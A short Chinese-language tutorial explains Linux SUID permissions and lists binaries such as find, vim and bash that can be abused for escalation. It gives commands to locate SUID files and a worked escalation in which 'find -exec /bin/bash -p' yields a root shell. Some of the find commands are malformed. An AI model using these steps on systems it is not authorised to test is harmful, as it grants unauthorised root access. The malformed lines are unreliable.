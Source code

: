 SUID (Set UID)是Linux中的一种特殊权限，其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。但是SUID权限的设置只针对二进制可执行文件，对于非可执行文件设置SUID没有任何意义。

在执行过程中，调用者会暂时获得该文件的所有者权限，且该权限只在程序执行的过程中有效。通俗的来讲，假设我们现在有一个可执行文件ls，其属主为root，当我们通过非root用户登录时，如果ls设置了SUID权限，我们可在非root用户下运行该二进制可执行文件，在执行文件时，该进程的权限将为root权限。

设置SUID权限

1. 原本文件权限为

   ```
   -rwx--x--x   1 ywd  ywd     80 7月  25 03:41 1.php
   ```

2. 使用`chmod u+s 1.php`命令后，文件权限变为

   ```
   -rws--x--x   1 ywd  ywd     80 7月  25 03:41 1.php
   ```

3. 可见权限中的`x`变为s

可以用**suid提权的文件**有：

- nmap 
- vim 
- find 
- bash 
- more 
- less 
- nano 
- cp

以下命令可以**查找系统上所有suid可执行文件**

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} ;
```

**提权流程：**

```
我们首先查看具有root用户权限的SUID文件
find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chfn
/usr/bin/kismet_cap_rz_killerbee
/usr/bin/ntfs-3g

发现find信息，利用find提权执行命令
└─$ /usr/bin/find /etc/opt -exec whoami \;
root
在执行命令，提取成功。
└─$ find /etc/passwd -exec /bin/bash -p \;
bash-5.1#
```
